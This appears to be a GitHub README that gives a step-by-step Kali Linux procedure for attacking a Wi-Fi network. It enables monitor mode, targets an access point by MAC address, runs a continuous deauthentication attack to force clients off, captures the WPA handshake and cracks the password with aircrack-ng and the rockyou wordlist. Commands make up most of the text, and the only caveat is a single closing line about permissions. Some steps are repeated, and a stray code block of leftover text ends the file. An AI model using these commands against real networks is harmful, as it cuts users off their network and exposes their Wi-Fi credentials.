 # Network Monitoring

## Overview
This document provides a step-by-step guide for using various network monitoring and penetration testing commands on Kali Linux. Follow these instructions to check your Kali Linux version, verify network interfaces, manage processes, enable monitor mode, and perform deauthentication attacks using tools like `airmon-ng`, `airodump-ng`, `aireplay-ng`, `wireshark`, and `aircrack-ng`.

## Instructions

### Check Kali Linux Version
To determine which version of Kali Linux you are using, execute the following commands:
```sh
cat /etc/os-release
uname -a
```

### Check Internet Connection and Network Interfaces

Use the following commands to check the status of your network interfaces:

```
iwconfig
ifconfig
ip addr
```


### Kill Conflicting Processes

Before starting monitor mode, kill any processes that might interfere:

```sh

sudo airmon-ng check kill
```
### Start Monitor Mode

Enable monitor mode on your wireless interface (e.g., wlan0):

```sh

sudo airmon-ng start wlan0
```
### Verify Monitor Mode

Confirm that monitor mode is enabled using:

```sh

sudo airmon-ng
# or
iwconfig
```

### Capture AP's MAC Address and Channel

Use airodump-ng to identify the Access Point (AP) you want to target:

```sh

sudo airodump-ng wlan0mon
```

Note down the AP's MAC address and channel. For example:

    AP-MAC: 90:9A:4A:B8:F3:FB
    Channel: 2

### Start Packet Capture

Open a new terminal window and start capturing packets:

```sh

sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon
```
### Perform Deauthentication Attack

In another terminal window, execute the deauthentication attack:

```sh

sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon
```
### Analyze Captured Packets

Open the captured packets file in Wireshark:

```sh

wireshark hack1-01.cap
```
Filter by eapol to find the handshake packets.
### Stop Monitor Mode

After completing the capture, stop monitor mode:

```sh

sudo airmon-ng stop wlan0mon
```
### Crack the Password

Use aircrack-ng to crack the password from the captured handshake:

```sh

aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```
### Display Specific AP

To focus on a specific AP, use the following command:

```sh

sudo airodump-ng wlan0mon -d 90:9A:4A:B8:F3:FB
```
### Deauthenticate User

To deauthenticate a user and stop their service, use:

```sh

sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon
```
### Change Network Mode

Switch from 'Monitor' mode back to 'Managed Access Point' mode:

```sh

sudo airmon-ng stop wlan0mon
```

### Final Password Crack Attempt

Perform the final password crack attempt:

```sh

aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```
By following these steps, you can efficiently use Kali Linux for network monitoring and penetration testing. Ensure you have the necessary permissions to perform these actions and always use them responsibly.



```sql
This combines all the instructions into a single `README.md` file without dividing any sections.
```

